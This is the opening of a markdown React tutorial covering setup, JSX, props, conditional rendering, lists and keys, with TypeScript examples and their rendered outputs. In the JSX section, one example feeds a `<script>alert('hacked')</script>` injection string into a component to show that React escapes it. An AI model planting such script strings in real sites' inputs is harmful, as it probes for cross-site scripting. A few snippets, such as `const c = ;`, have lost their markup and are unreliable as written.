





# React: From Absolute Basics to Production

React from zero, in **levels**: **Basic** (components, JSX, props, lists, state, events, forms) → **Easy** (where state lives, effects, refs, data fetching, styling, composition) → **Moderate** (useReducer, context, custom hooks, how rendering works, performance, Suspense and error boundaries, accessibility; then real apps: React Router, TanStack Query, React 19 actions and React Hook Form, global state, testing) → **Advanced** (SSR, hydration and streaming, Server Components and Next.js, transitions, streaming AI chat UIs, security, architecture, legacy class components, production performance) → **Interview Prep**. **Each part uses only what earlier parts taught.** It assumes JavaScript basics (`javascript.md` Parts 1–3); examples use light TypeScript (`typescript.md`).

Every section has the same shape: a **picture** where it helps, **theory** in plain words, **React** examples, **common mistakes**, and **practice** with hidden answers and links. Every example was type-checked with **TypeScript 7.0** and run with **React 19** on **Node.js 24**, rendering into a real DOM (jsdom) and interacting through **Testing Library** the way a user would (with React Router 8, TanStack Query 5, Zustand 5, React Hook Form 7, Zod 4 and MSW 2). The text under **Output** is exactly what was printed, and **Compiler output** is exactly what `tsc` reported. Next.js examples, which need a full framework project, are marked and shown for reference. Blocks within one section share their variables, like cells in a notebook.

Each part ends with a ✅ **checkpoint**. After this file: `nodejs.md` for servers and APIs, and `llm-engineering.md` + `rag-and-agents.md` to build AI features behind your React UI.

## Table of Contents

**[Part 1 — Basic: First Steps](#part-1--basic-first-steps)**

1. [Getting Started: What React Is and Your First Component](#1-getting-started-what-react-is-and-your-first-component)
2. [JSX: HTML-Like Syntax in JavaScript](#2-jsx-html-like-syntax-in-javascript)
3. [Components and Props](#3-components-and-props)
4. [Conditional Rendering, Lists and Keys](#4-conditional-rendering-lists-and-keys)
5. [State with useState: Memory, Snapshots and Immutable Updates](#5-state-with-usestate-memory-snapshots-and-immutable-updates)
6. [Handling Events](#6-handling-events)
7. [Forms: Controlled and Uncontrolled Inputs](#7-forms-controlled-and-uncontrolled-inputs)

**[Part 2 — Easy: Thinking in React](#part-2--easy-thinking-in-react)**

8. [Thinking in React: Where State Lives, Lifting State Up and Derived Data](#8-thinking-in-react-where-state-lives-lifting-state-up-and-derived-data)
9. [Effects with useEffect (and When You Don't Need One)](#9-effects-with-useeffect-and-when-you-dont-need-one)
10. [Refs: useRef for DOM Elements and Values That Don't Re-render](#10-refs-useref-for-dom-elements-and-values-that-dont-re-render)
11. [Fetching Data: Loading, Errors and Race Conditions](#11-fetching-data-loading-errors-and-race-conditions)
12. [Styling React Apps](#12-styling-react-apps)
13. [Composition Patterns: children, Slots, Render Props and Avoiding Prop Drilling](#13-composition-patterns-children-slots-render-props-and-avoiding-prop-drilling)

**[Part 3 — Moderate: Hooks and How React Works](#part-3--moderate-hooks-and-how-react-works)**

14. [useReducer: State Logic in One Place](#14-usereducer-state-logic-in-one-place)
15. [Context: Sharing Data Without Prop Drilling](#15-context-sharing-data-without-prop-drilling)
16. [Custom Hooks: Reusing Stateful Logic](#16-custom-hooks-reusing-stateful-logic)
17. [How React Renders: Trigger, Render, Commit, Reconciliation and Keys](#17-how-react-renders-trigger-render-commit-reconciliation-and-keys)
18. [Performance: memo, useMemo, useCallback and the React Compiler](#18-performance-memo-usememo-usecallback-and-the-react-compiler)
19. [Suspense, lazy, use() and Error Boundaries](#19-suspense-lazy-use-and-error-boundaries)
20. [Accessibility, Portals and Modals](#20-accessibility-portals-and-modals)

**[Part 4 — Moderate: Building Real Apps](#part-4--moderate-building-real-apps)**

21. [Routing with React Router: Pages, URLs, Loaders and Actions](#21-routing-with-react-router-pages-urls-loaders-and-actions)
22. [Server State with TanStack Query](#22-server-state-with-tanstack-query)
23. [Forms in Production: React 19 Actions, Optimistic UI and React Hook Form + Zod](#23-forms-in-production-react-19-actions-optimistic-ui-and-react-hook-form--zod)
24. [Global State Management: Choosing Between Context, Zustand, Redux and Friends](#24-global-state-management-choosing-between-context-zustand-redux-and-friends)
25. [Testing React Apps: Testing Library, User Events, MSW and Playwright](#25-testing-react-apps-testing-library-user-events-msw-and-playwright)

**[Part 5 — Advanced: Server Rendering and Modern React](#part-5--advanced-server-rendering-and-modern-react)**

26. [Rendering Strategies: CSR, SSR, SSG, ISR, Streaming and Hydration](#26-rendering-strategies-csr-ssr-ssg-isr-streaming-and-hydration)
27. [React Server Components, Server Functions and Next.js](#27-react-server-components-server-functions-and-nextjs)
28. [Concurrent Rendering: useTransition and useDeferredValue](#28-concurrent-rendering-usetransition-and-usedeferredvalue)
29. [Building Streaming UIs: Real-Time Updates and AI Chat Interfaces](#29-building-streaming-uis-real-time-updates-and-ai-chat-interfaces)
30. [Security in React Apps](#30-security-in-react-apps)

**[Part 6 — Advanced: Architecture and Production](#part-6--advanced-architecture-and-production)**

31. [Architecture: Project Structure, Design Systems and Scaling a Codebase](#31-architecture-project-structure-design-systems-and-scaling-a-codebase)
32. [Legacy React: Class Components, Lifecycle Methods and HOCs](#32-legacy-react-class-components-lifecycle-methods-and-hocs)
33. [Production React: Performance, Virtualisation, Monitoring and Deployment](#33-production-react-performance-virtualisation-monitoring-and-deployment)

**[Part 7 — Interview Prep: Revision](#part-7--interview-prep-revision)**

34. [Behaviour Questions: What Renders, What Logs, and When](#34-behaviour-questions-what-renders-what-logs-and-when)
35. [Machine Coding Round: Classic Components Built and Tested](#35-machine-coding-round-classic-components-built-and-tested)
36. [React Cheat Sheet](#36-react-cheat-sheet)
37. [Most Asked React Interview Questions](#37-most-asked-react-interview-questions)

---

# Part 1 — Basic: First Steps

> **Goal:** Understand what React is and set up a project, write JSX, build components with props, render lists and conditions, use state, handle events and build forms.  
> **You need:** JavaScript up to array methods, modules and promises (javascript.md Parts 1–3); light TypeScript helps (typescript.md Part 1).

---

## 1. Getting Started: What React Is and Your First Component



### Theory

> **In simple words:** **React** is a JavaScript library for building user interfaces out of **components**: small, reusable pieces like a button, a product card or a whole checkout page. You describe **what the screen should look like for the current data** ("if the cart is empty, show this; otherwise show the list"), and when the data changes, React works out the smallest set of changes to make to the page. You never write "find this element and change its text" code by hand.

**The three ideas everything else builds on:**

1. **Components** are JavaScript functions that return what to show, written in **JSX** (HTML-like syntax inside JavaScript).
2. **Props** are the inputs a parent passes to a component (like function arguments).
3. **State** is data a component remembers between renders (like the text typed in a search box). When state changes, React **re-renders**: it calls your component again and updates the page to match.

**Why React is so widely used (2026):** a huge ecosystem, one mental model for web (React DOM), mobile (React Native) and desktop apps, full-stack frameworks (**Next.js**, **React Router**, TanStack Start) with server rendering and **Server Components**, and the **React Compiler**, which automatically optimises re-renders. React 19 is the current major version.

**How to start a project today:**

| You want | Use |
|---|---|
| Learn React / a client-side app (dashboards, internal tools) | **Vite**: `npm create vite@latest my-app -- --template react-ts` |
| A full website or product with SEO, server rendering, API routes | **Next.js** (`npx create-next-app@latest`) or **React Router** framework mode |
| Mobile apps | **Expo** (React Native) |

(Create React App is deprecated; don't use it for new projects.)

<!-- no-run (shell commands) -->
```text
npm create vite@latest shop -- --template react-ts
cd shop
npm install
npm run dev          # opens http://localhost:5173 with instant reload
```

A Vite project's entry point mounts your root component into the page's `<div id="root">`:

<!-- no-run (browser entry file; needs index.html) -->
```tsx
// src/main.tsx
import { StrictMode } from "react";
import { createRoot } from "react-dom/client";
import App from "./App";

createRoot(document.getElementById("root")!).render(
  <StrictMode>
    <App />
  </StrictMode>,
);
```

These notes use **TypeScript** (`.tsx` files) because that's what almost all React teams use; the types are light and explained as they appear (see `typescript.md` for more). Prerequisites: JavaScript up to array methods, modules and promises (`javascript.md` Parts 1–3).

**How the examples here run:** each example renders components into a real DOM (jsdom) with **React 19**, and uses **Testing Library** to click and type like a user would; the output is the actual resulting HTML or text. This is exactly how React components are tested in real projects.

### React

Your first component. It's a function whose name starts with a **capital letter** and which returns JSX:

```tsx
import { render } from "@testing-library/react";

function Welcome() {
  return <h1>Welcome to Chai Point ☕</h1>;
}

function App() {
  return (
    <main>
      <Welcome />
      <p>Fresh tea, delivered in 20 minutes.</p>
    </main>
  );
}

const { container } = render(<App />);
console.log(container.innerHTML);
```

**Output:**

```text
<main><h1>Welcome to Chai Point ☕</h1><p>Fresh tea, delivered in 20 minutes.</p></main>
```

`<Welcome />` inside `App` is how you **use** a component: React calls the `Welcome` function and puts its result there. Components can be used as many times as you like.

**A component that reacts to a click.** `useState` gives the component a piece of memory; calling the setter re-renders it with the new value (the next sections explain each part):

```tsx
import { useState } from "react";
import { screen, fireEvent } from "@testing-library/react";

function LikeButton() {
  const [likes, setLikes] = useState(0);
  return <button onClick={() => setLikes(likes + 1)}>👍 {likes}</button>;
}

render(<LikeButton />);
const button = screen.getByRole("button");
console.log("before:", button.textContent);
fireEvent.click(button);
fireEvent.click(button);
console.log("after two clicks:", button.textContent);
```

**Output:**

```text
before: 👍 0
after two clicks: 👍 2
```

Notice: we never wrote code to update the button's text. We changed the **state**, and React updated the page to match.

**Common mistakes:**

- Lowercase component names (`function welcome()` then `<welcome />`): React treats lowercase tags as HTML elements.
- Forgetting to `return` the JSX (or returning nothing from an arrow function with `{}`).
- Starting new projects with Create React App (deprecated). Use Vite or a framework.
- Trying to change the page directly (`document.querySelector(...).textContent = ...`) inside React components. Change state instead.

### Practice

1. Write a `Greeting` component that shows "Good morning, Asha!" and render it twice inside an `App` (you'll learn how to pass different names in the props section).

<details>
<summary><b>Answer</b></summary>

```tsx
function Greeting() {
  return <p>Good morning, Asha!</p>;
}

function GreetingApp() {
  return (
    <section>
      <Greeting />
      <Greeting />
    </section>
  );
}

console.log(render(<GreetingApp />).container.innerHTML);
```

**Output:**

```text
<section><p>Good morning, Asha!</p><p>Good morning, Asha!</p></section>
```

</details>

**Learn more:** [react.dev: Quick start](https://react.dev/learn) · [react.dev: Creating a React app](https://react.dev/learn/creating-a-react-app) · [Vite: Getting started](https://vite.dev/guide/)

---

## 2. JSX: HTML-Like Syntax in JavaScript

### Theory

> **In simple words:** **JSX** lets you write markup that looks like HTML inside JavaScript. `<h1 className="title">Hi {name}</h1>` is turned (by Vite/TypeScript/Babel) into a plain function call that creates a description of the element. Anything inside **curly braces `{}`** is normal JavaScript: variables, calculations, function calls. JSX is just a nicer way to build those descriptions.

**JSX rules (the differences from HTML):**

| Rule | HTML | JSX |
|---|---|---|
| Return **one** root element (or wrap in a fragment `<>...</>`) | many siblings are fine | `return <><h1/><p/></>` |
| Close every tag | ``, `<br>` | ``, `<br />` |
| `class` is a JS keyword | `class="btn"` | `className="btn"` |
| Label's `for` | `for="email"` | `htmlFor="email"` |
| Attributes are camelCase | `onclick`, `tabindex` | `onClick`, `tabIndex` (but `aria-*` and `data-*` stay dashed) |
| Inline styles are objects | `style="color: red"` | `style={{ color: "red", fontSize: 14 }}` |
| Comments | `<!-- -->` | `{/* comment */}` |
| JavaScript values | not possible | `{price * qty}`, `{user.name}`, `{format(date)}` |

**What `{}` can contain:** any **expression** (something that produces a value): variables, maths, ternaries `a ? b : c`, `&&`, function calls, `.map(...)`. Not **statements** like `if`, `for` or `const x = 1` (put those above the `return`).

**What gets rendered:** strings and numbers are shown as text; `null`, `undefined`, `true` and `false` render **nothing**; arrays are rendered item by item; JSX elements render as elements. Objects can't be rendered directly (an error): pick their fields.

**JSX is safe by default:** text inserted with `{}` is **escaped**, so a user's name like `<script>alert(1)</script>` shows as text instead of running. (Only `dangerouslySetInnerHTML` bypasses this; see the security section later.)

### React

```tsx
import { render } from "@testing-library/react";

const product = { name: "Masala chai", pricePaise: 18000, tags: ["tea", "spiced"], inStock: true };
const formatRupees = (paise: number) => `₹${(paise / 100).toFixed(2)}`;

function ProductCard() {
  const discountPercent = 10;                     // statements go above the return
  const final = product.pricePaise * (1 - discountPercent / 100);
  return (
    <article className="card" data-sku="TEA-250">
      {/* expressions inside braces */}
      <h2>{product.name.toUpperCase()}</h2>
      <p style={{ color: "green", fontWeight: 700 }}>
        {formatRupees(final)} <s>{formatRupees(product.pricePaise)}</s>
      </p>
      <p>{product.inStock ? "In stock" : "Sold out"}</p>
      <label htmlFor="qty">Qty</label>
      <input id="qty" type="number" defaultValue={1} />
      <br />
      <small>Tags: {product.tags.join(", ")}</small>
    </article>
  );
}

console.log(render(<ProductCard />).container.innerHTML);
```

**Output:**

```text
<article class="card" data-sku="TEA-250"><h2>MASALA CHAI</h2><p style="color: green; font-weight: 700;">₹162.00 <s>₹180.00</s></p><p>In stock</p><label for="qty">Qty</label><input id="qty" type="number" value="1"><br><small>Tags: tea, spiced</small></article>
```

`className` became `class`, `htmlFor` became `for`, and the style object became a CSS string.

**What renders and what doesn't**, and why user text is safe:

```tsx
function Values() {
  const userInput = "<script>alert('hacked')</script>";
  return (
    <ul>
      <li>string: {"hello"}</li>
      <li>number: {42}</li>
      <li>zero: {0}</li>
      <li>true/false/null/undefined: [{true}{false}{null}{undefined}]</li>
      <li>array: {["a", "b", "c"]}</li>
      <li>user input: {userInput}</li>
    </ul>
  );
}
console.log(render(<Values />).container.innerHTML);
```

**Output:**

```text
<ul><li>string: hello</li><li>number: 42</li><li>zero: 0</li><li>true/false/null/undefined: []</li><li>array: abc</li><li>user input: &lt;script&gt;alert('hacked')&lt;/script&gt;</li></ul>
```

`0` **does** render (a common surprise with `count && ...`, covered in the conditional rendering section), booleans and `null` don't, and the "script" is harmless text (`&lt;` is the escaped `<`).

**Fragments** return several elements without an extra wrapper `<div>`:

```tsx
function PriceRow() {
  return (
    <>
      <dt>Price</dt>
      <dd>₹180</dd>
    </>
  );
}
console.log(render(<dl><PriceRow /></dl>).container.innerHTML);
```

**Output:**

```text
<dl><dt>Price</dt><dd>₹180</dd></dl>
```

Mistakes TypeScript catches in JSX:

```tsx
const a = <div class="x">Hi</div>;
const b = <p>{product}</p>;
```

**Compiler output:**

```text
example.tsx(1,16): error TS2322: Type '{ class: string; children: string; }' is not assignable to type 'DetailedHTMLProps<HTMLAttributes<HTMLDivElement>, HTMLDivElement>'.
  Property 'class' does not exist on type 'DetailedHTMLProps<HTMLAttributes<HTMLDivElement>, HTMLDivElement>'. Did you mean 'className'?
example.tsx(2,14): error TS2322: Type '{ name: string; pricePaise: number; tags: string[]; inStock: boolean; }' is not assignable to type 'ReactNode'.
```

An unclosed tag is a **syntax** error, reported on its own:

```tsx
const c = ;
```

**Compiler output:**

```text
example.tsx(1,12): error TS17008: JSX element 'img' has no corresponding closing tag.
```

**Common mistakes:**

- Returning two sibling elements without a fragment.
- Writing `class`, `for`, `onclick` or string styles out of habit.
- Putting `if` statements inside `{}`; use a ternary or move the logic above `return`.
- Rendering an object (`{user}`) instead of a field (`{user.name}`).

### Practice

1. Write an `OrderSummary` component for `const order = { id: 90312, items: 3, totalPaise: 149950, express: true }` that shows `Order #90312`, `3 items`, the total in rupees, and "⚡ Express" only when `express` is true (use `&&`).

<details>
<summary><b>Answer</b></summary>

```tsx
const order = { id: 90312, items: 3, totalPaise: 149950, express: true };

function OrderSummary() {
  return (
    <div>
      <h3>Order #{order.id}</h3>
      <p>{order.items} items · {formatRupees(order.totalPaise)}</p>
      {order.express && <span>⚡ Express</span>}
    </div>
  );
}
console.log(render(<OrderSummary />).container.innerHTML);
```

**Output:**

```text
<div><h3>Order #90312</h3><p>3 items · ₹1499.50</p><span>⚡ Express</span></div>
```

</details>

**Learn more:** [react.dev: Writing markup with JSX](https://react.dev/learn/writing-markup-with-jsx) · [react.dev: JavaScript in JSX with curly braces](https://react.dev/learn/javascript-in-jsx-with-curly-braces)

---

## 3. Components and Props



### Theory

> **In simple words:** **props** (short for "properties") are how a parent component passes data to a child, exactly like arguments to a function. `<ProductCard name="Masala chai" price={180} />` calls `ProductCard` with `{ name: "Masala chai", price: 180 }`. Props let one component show different data each time it's used. Props are **read-only**: a component must never change its own props.

**Key facts:**

| Idea | Example |
|---|---|
| Pass strings with quotes, everything else with braces | `title="Hi"`, `price={180}`, `tags={["new"]}`, `onAdd={handleAdd}` |
| Receive props by destructuring | `function Card({ title, price }: CardProps)` |
| Default values | `function Badge({ tone = "info" }: BadgeProps)` |
| `children` | Whatever you put **between** the tags: `<Card><p>Body</p></Card>` |
| Pass functions as props | Let children **tell** the parent something happened (`onAdd`, `onChange`) |
| Spread | `<Button {...rest} />` passes all remaining props |
| Boolean shorthand | `<Button disabled />` means `disabled={true}` |

**Data flows one way: down.** Parents pass data down through props; children report events **up** by calling functions they received as props. This one-way flow makes apps predictable: to find where a value comes from, look up the tree.

**Components should be pure:** given the same props (and state), a component returns the same JSX and doesn't change anything outside itself while rendering (no editing global variables, no API calls during render). React relies on this; Strict Mode calls components twice in development to help you catch impure ones.

**Splitting components:** when a piece of UI is reused, gets big, or has its own clear job, make it a component. Name components by **what they are** (`ProductCard`, `CartSummary`), and put each important one in its own file.

### React

```tsx
import { render } from "@testing-library/react";
import type { ReactNode } from "react";

type ProductCardProps = {
  name: string;
  pricePaise: number;
  tag?: string;                     // optional
  compact?: boolean;
};

function ProductCard({ name, pricePaise, tag, compact = false }: ProductCardProps) {
  return (
    <div className={compact ? "card card-compact" : "card"}>
      <h3>{name}</h3>
      <p>₹{pricePaise / 100}</p>
      {tag && <span className="tag">{tag}</span>}
    </div>
  );
}

function Panel({ title, children }: { title: string; children: ReactNode }) {
  return (
    <section>
      <h2>{title}</h2>
      {children}
    </section>
  );
}

function Shop() {
  return (
    <Panel title="Today's picks">
      <ProductCard name="Masala chai" pricePaise={18000} tag="Bestseller" />
      <ProductCard name="Steel mug" pricePaise={34900} compact />
    </Panel>
  );
}

console.log(render(<Shop />).container.innerHTML);
```

**Output:**

```text
<section><h2>Today's picks</h2><div class="card"><h3>Masala chai</h3><p>₹180</p><span class="tag">Bestseller</span></div><div class="card card-compact"><h3>Steel mug</h3><p>₹349</p></div></section>
```

The same `ProductCard` shows different data each time; `Panel` wraps whatever `children` it's given.

**Passing functions down so children can report events up:**

```tsx
import { useState } from "react";
import { screen, fireEvent } from "@testing-library/react";

function AddButton({ label, onAdd }: { label: string; onAdd: () => void }) {
  return <button onClick={onAdd}>Add {label}</button>;
}

function Cart() {
  const [count, setCount] = useState(0);
  return (
    <div>
      <p>Cart: {count} items</p>
      <AddButton label="chai" onAdd={() => setCount(count + 1)} />
      <AddButton label="mug" onAdd={() => setCount(count + 1)} />
    </div>
  );
}

render(<Cart />);
fireEvent.click(screen.getByText("Add chai"));
fireEvent.click(screen.getByText("Add mug"));
fireEvent.click(screen.getByText("Add chai"));
console.log(screen.getByText(/Cart:/).textContent);
```

**Output:**

```text
Cart: 3 items
```

The buttons don't know about the cart count; they just call `onAdd`. The parent owns the data and decides what happens.

**TypeScript checks every use of a component**, so missing or wrong props are caught:

```tsx
const x = <ProductCard name="Tea" />;
const y = <ProductCard name="Tea" pricePaise="180" />;
const z = <Panel title="Empty" />;
```

**Compiler output:**

```text
example.tsx(1,12): error TS2741: Property 'pricePaise' is missing in type '{ name: string; }' but required in type 'ProductCardProps'.
example.tsx(2,35): error TS2322: Type 'string' is not assignable to type 'number'.
example.tsx(3,12): error TS2741: Property 'children' is missing in type '{ title: string; }' but required in type '{ title: string; children: ReactNode; }'.
```

**Props are read-only.** Changing them is a bug (and TypeScript can help if you mark them `Readonly`):

```tsx
function Broken(props: Readonly<{ count: number }>) {
  props.count = props.count + 1;
  return <p>{props.count}</p>;
}
```

**Compiler output:**

```text
example.tsx(2,9): error TS2540: Cannot assign to 'count' because it is a read-only property.
```

**Common mistakes:**

- Changing props or objects received through props. Copy and create new values, or ask the parent (through a callback) to change its state.
- Passing a function **call** instead of the function: `onAdd={handleAdd()}` runs immediately during render; write `onAdd={handleAdd}` or `onAdd={() => handleAdd(id)}`.
- "Prop drilling" through many layers of components that don't use the prop. Later sections show composition and context as fixes.
- Giant components doing everything. Split by responsibility.

### Practice

1. Write a `Rating` component with props `value` (0–5) and an optional `max` (default 5) that renders filled and empty stars, e.g. `★★★☆☆`. Render ratings 3 and 5, and one with `max={3}` and value 1.

<details>
<summary><b>Answer</b></summary>

```tsx
function Rating({ value, max = 5 }: { value: number; max?: number }) {
  return <span aria-label={`${value} out of ${max}`}>{"★".repeat(value) + "☆".repeat(max - value)}</span>;
}
console.log(render(<p><Rating value={3} /> <Rating value={5} /> <Rating value={1} max={3} /></p>).container.innerHTML);
```

**Output:**

```text
<p><span aria-label="3 out of 5">★★★☆☆</span> <span aria-label="5 out of 5">★★★★★</span> <span aria-label="1 out of 3">★☆☆</span></p>
```

</details>

**Learn more:** [react.dev: Your first component](https://react.dev/learn/your-first-component) · [react.dev: Passing props](https://react.dev/learn/passing-props-to-a-component) · [react.dev: Keeping components pure](https://react.dev/learn/keeping-components-pure)

---

## 4. Conditional Rendering, Lists and Keys

### Theory

> **In simple words:** real screens change with the data: show a spinner **while** loading, an empty message **if** the cart is empty, and **one row per** order in a list. In React you do this with ordinary JavaScript: `if`, the ternary `? :`, `&&`, and `array.map()` to turn an array of data into an array of elements. Each item in a list needs a stable **`key`** so React can tell items apart when the list changes.

**Conditional rendering patterns:**

| Pattern | Use when | Example |
|---|---|---|
| Early `return` | The whole component depends on it | `if (loading) return <Spinner />;` |
| Ternary `a ? b : c` | Choose between two things | `{isOpen ? <Close /> : <Menu />}` |
| `&&` | Show something or nothing | `{error && <p role="alert">{error}</p>}` |
| Return `null` | Render nothing at all | `if (!user) return null;` |
| Lookup object | Many cases | `const icons = { paid: "✅", failed: "❌" }; icons[status]` |

**The `&&` trap with numbers:** `{count && <Badge />}` renders **`0`** when `count` is `0` (because `0 && x` is `0`, and React renders numbers). Write `{count > 0 && <Badge />}`.

**Keys:** when rendering a list, give each element `key={item.id}`. Keys must be **unique among siblings** and **stable** (the same item keeps the same key across renders). React uses keys to match old and new items: with good keys, reordering, inserting and deleting items keeps the right state attached to the right item.

| Key choice | Verdict |
|---|---|
| Database ID / SKU / slug | ✅ Best |
| `crypto.randomUUID()` created **when the item is created** and stored | ✅ Fine |
| Array index | ⚠️ Only for static lists that never reorder, insert or delete |
| `Math.random()` in render | ❌ New key every render: state lost, slow |

### React

```tsx
import { render } from "@testing-library/react";

type Order = { id: number; item: string; status: "paid" | "shipped" | "cancelled"; qty: number };
const statusIcon = { paid: "💳", shipped: "🚚", cancelled: "❌" } satisfies Record<Order["status"], string>;

function OrderList({ orders, loading = false }: { orders: Order[]; loading?: boolean }) {
  if (loading) return <p>Loading orders…</p>;                    // early return
  if (orders.length === 0) return <p>No orders yet.</p>;

  const active = orders.filter(o => o.status !== "cancelled");
  return (
    <div>
      <ul>
        {orders.map(order => (
          <li key={order.id}>
            {statusIcon[order.status]} {order.item} × {order.qty}
            {order.status === "cancelled" ? <em> (refunded)</em> : null}
          </li>
        ))}
      </ul>
      {active.length > 0 && <p>{active.length} active order(s)</p>}
    </div>
  );
}

const orders: Order[] = [
  { id: 101, item: "Masala chai", status: "shipped", qty: 2 },
  { id: 102, item: "Steel mug", status: "cancelled", qty: 1 },
  { id: 103, item: "Ginger tea", status: "paid", qty: 3 },
];

console.log(render(<OrderList orders={orders} />).container.innerHTML);
console.log(render(<OrderList orders={[]} />).container.innerHTML);
console.log(render(<OrderList orders={orders} loading />).container.innerHTML);
```

**Output:**

```text
<div><ul><li>🚚 Masala chai × 2</li><li>❌ Steel mug × 1<em> (refunded)</em></li><li>💳 Ginger tea × 3</li></ul><p>2 active order(s)</p></div>
<p>No orders yet.</p>
<p>Loading orders…</p>
```

**The `0` trap:**

```tsx
function Notifications({ count }: { count: number }) {
  return (
    <div>
      <p>wrong: {count && <b>{count} new</b>}</p>
      <p>right: {count > 0 && <b>{count} new</b>}</p>
    </div>
  );
}
console.log(render(<Notifications count={0} />).container.innerHTML);
console.log(render(<Notifications count={3} />).container.innerHTML);
```

**Output:**

```text
<div><p>wrong: 0</p><p>right: </p></div>
<div><p>wrong: <b>3 new</b></p><p>right: <b>3 new</b></p></div>
```

**Why keys matter.** Each row below has its own input (its own state). We insert an item at the **top**. With index keys, React matches rows by position, so the typed text stays in row 0 and ends up next to the **wrong** item. With ID keys, the text moves with its item:

```tsx
import { useState } from "react";
import { screen, fireEvent } from "@testing-library/react";

type Todo = { id: number; text: string };

function TodoList({ useIndexKeys }: { useIndexKeys: boolean }) {
  const [todos, setTodos] = useState<Todo[]>([{ id: 1, text: "Buy tea" }, { id: 2, text: "Call Ravi" }]);
  return (
    <div>
      <button onClick={() => setTodos([{ id: 3, text: "Pay bill" }, ...todos])}>Add at top</button>
      {todos.map((todo, index) => (
        <label key={useIndexKeys ? index : todo.id}>
          {todo.text}: <input placeholder="note" />
        </label>
      ))}
    </div>
  );
}

for (const useIndexKeys of [true, false]) {
  const { container, unmount } = render(<TodoList useIndexKeys={useIndexKeys} />);
  fireEvent.change(screen.getAllByPlaceholderText("note")[0]!, { target: { value: "urgent!" } });  // note on "Buy tea"
  fireEvent.click(screen.getByText("Add at top"));
  const rows = [...container.querySelectorAll("label")].map(l => `${l.textContent}${(l.querySelector("input") as HTMLInputElement).value}`);
  console.log(useIndexKeys ? "index keys:" : "id keys:   ", rows.join(" | "));
  unmount();
}
```

**Output:**

```text
index keys: Pay bill: urgent! | Buy tea:  | Call Ravi: 
id keys:    Pay bill:  | Buy tea: urgent! | Call Ravi: 
```

With index keys, "urgent!" is now attached to "Pay bill", a real bug users notice in editable lists, animations and forms.

**Common mistakes:**

- Missing `key` (React warns in the console) or using the index for dynamic lists.
- `{count && ...}` rendering `0`.
- Deeply nested ternaries: extract a small component or use a lookup object.
- Putting the `key` on an inner element instead of the outermost element returned from `map`.

### Practice

1. Render a `ProductGrid` from `[{ sku: "TEA", name: "Chai", stock: 5 }, { sku: "MUG", name: "Mug", stock: 0 }]` where sold-out products show "Sold out" instead of an "Add" button, and a heading shows "2 products (1 sold out)".

<details>
<summary><b>Answer</b></summary>

```tsx
type Item = { sku: string; name: string; stock: number };

function ProductGrid({ items }: { items: Item[] }) {
  const soldOut = items.filter(i => i.stock === 0).length;
  return (
    <section>
      <h2>{items.length} products{soldOut > 0 && ` (${soldOut} sold out)`}</h2>
      {items.map(i => (
        <div key={i.sku}>
          {i.name} {i.stock > 0 ? <button>Add</button> : <span>Sold out</span>}
        </div>
      ))}
    </section>
  );
}
console.log(render(<ProductGrid items={[{ sku: "TEA", name: "Chai", stock: 5 }, { sku: "MUG", name: "Mug", stock: 0 }]} />).container.innerHTML);
```

**Output:**

```text
<section><h2>2 products (1 sold out)</h2><div>Chai <button>Add</button></div><div>Mug <span>Sold out</span></div></section>
```

</details>

**Learn more:** [react.dev: Conditional rendering](https://react.dev/learn/conditional-rendering) · [react.dev: Rendering lists](https://react.dev/learn/rendering-lists)

---

## 5. State with useState: Memory, Snapshots and Immutable Updates



### Theory

